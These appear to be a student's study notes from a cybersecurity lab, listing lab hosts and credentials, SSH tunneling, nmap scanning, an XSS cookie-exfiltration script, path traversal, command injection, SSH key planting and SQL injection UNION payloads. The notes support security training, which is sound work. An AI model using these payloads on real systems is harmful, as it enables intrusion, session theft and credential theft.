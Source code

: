 # Security
MIDY-003-M
USERINFO::http://10.50.21.3/classinfo.html
CTFd::http://10.50.20.250:8000

xfreerdp /v:10.50.29.185 /u:student +clipboard +dynamic-resolution +glyph-cache

Stack: 1 	
Username: MIDY-003-M 	
Password: 98DjctjRf4TQpHB ---- password
Lin.internet: 10.50.28.189
Lin.Ops: 10.50.25.1
Win.Ops: 10.50.29.185

## SSH
ssh student@10.50.28.189 -D 9050
ssh student@10.50.28.189 -L1111:192.168.28.111:8080
proxychains nmap -Pn -T4 -n -p1-10000 192.168.128.111

## NEW SSH
ssh -MS /tmp/jump student@10.50.28.189 
ssh -S /tmp/jump dummy
ssh -S /tmp/jump -O forward -D 9050 dummy  --- DYNO port 
ssh -S /tmp/jump -O cancel -D 9050 dummy  --- DYNO port 


ssh -S /tmp/jump -O forward -L1111:10.100.28.40:80 DUMB
ssh -S /tmp/jump -O forward -L2222:192.168.28.111:8080 DUMB
ssh -S /tmp/jump -O forward -L3333:192.168.28.111:2222 DUMB
ssh -MS /tmp/T1 student@127.0.0.1 -p3333

1243ASDFasdf!!!!
## NMAP scanning
HOST DISCOVERY: 
    for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
    
 ///NMAP scripts --
    --script http-enum.nse
    --script smb-os-discovery.nse //only with windows
 
PORT ENUMERATION:  
    sudo proxychains nmap -Pn -T4 -sT -p1-10000 10.100.28.40 2>/dev/null

PORT INTERIGATION:  
    proxychains nc 10.100.28.40 80







# Web Expliotation (XSS)
**Requests**
GET
POST
HEAD
PUT

**HTTP Response Codes**
10X == Informational
2XX == Success
30X == Redirection
4XX == Client Error
5XX == Server Error

https://user-agents.net/lookup

Check for Robots.txt

sudo apt install nikto -y

nikto -h 10.100.28.40

**Attack Methods**
//Cookie script  ------did not do -- cookie found in back end

 <script>document.location="http://10.100.28.55/Cookie.php?username=" + document.cookie;</script>


//Directory Traversal(GET) -- myfile=../../../../etc/passwd
//Directory Traversal(POST) -- File to read [../../../../etc/passwd]

//Malicious File Upload
Bad.php -- on lin-ops
goes to /uploads

//Command Injection
;whoami
;cat /etc/passwd
;ls -latr & netstat -rn
|| ifconfig

//SSH Key Upload
ssh -keygen -t rsa -- on lin-ops
cat ~/.ssh/id_rsa.pub  --copy this
                    --on web host
whoami -- find user                    
cat /etc/passwd -- find users home directory                    
ls -la /users/home/directory      --check if .ssh exists
mkdir /users/home/directory/.ssh   --make .ssh in users home folder if it does not exist
echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys  -- puts ssh key in dir
cat /users/home/directory/.ssh/authorized_keys  -- verify



# Web Exploitation(SQL)

FOLLOW THE STEPS
we are using "mysql"
we wont be writeing to a database
may be case sensitive
Schema and Database are interchangable
@@Version gives version number
GET -- URL  ---- if you cant type, it is a get method
POST -- input box

if you see username and password input fields, use sql

DONT FORGET ABOUT THE "ESCAPE STRING"

Database(tables(columns(data)))


[Information_schema]
[mysql]               ----- These are defaults
[performance_schema] 

**Select**
**Union**


SHOW DATABASES;
show tables;
select * from session.car;

select * from session.car UNION select name,type,cost,color from session.car:

------------------------------------------------
###TESTING###
IF LOGIN PAGE TEST SQL BY USING THIS
'or 1='1

GO TO DEVCON, OPEN NETWORK TAB, CLICK REQUEST, POST METHOD, HIT 'RAW' SWITCH, COPY CONTENTS
PUT '?' AFTER THE URL, PASTE RAW CONTENTS

THE ONLY THING YOU CAN GET FROM A LOGIN PAGE IS USERNAMES AND PASSWORDS

------------------------------------------------
###DUMPING THE DATABASE###
**using valid querys to dump the databases**

POST            Audi'or 1='1

GET             OR 1 = 1 ;#

------------------------------------------------
###FINDING THE AMOUNT OF COLUMNS###

Audi' UNION SELECT 1,2,3,4,5;#

------------------------------------------------
###GOLDEN STATEMENT###
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;#

---POST
**WORKING EXAMPLES**
UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns;#
Audi'UNION SELECT id,2,name,pass,5 FROM session.user;#
Audi'UNION SELECT tireid,2,name,size,cost FROM session.Tires;#


---GET
**WORKING EXAMPLES**
?Selection=2 UNION SELECT 1,3,2 FROM information_schema.columns;#
?Selection=2 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns;#
?Selection=2 UNION SELECT username,studentID,passwd FROM session.userinfo;#

?category=1 UNION SELECT username,password,permission FROM sqlinjection.members;#






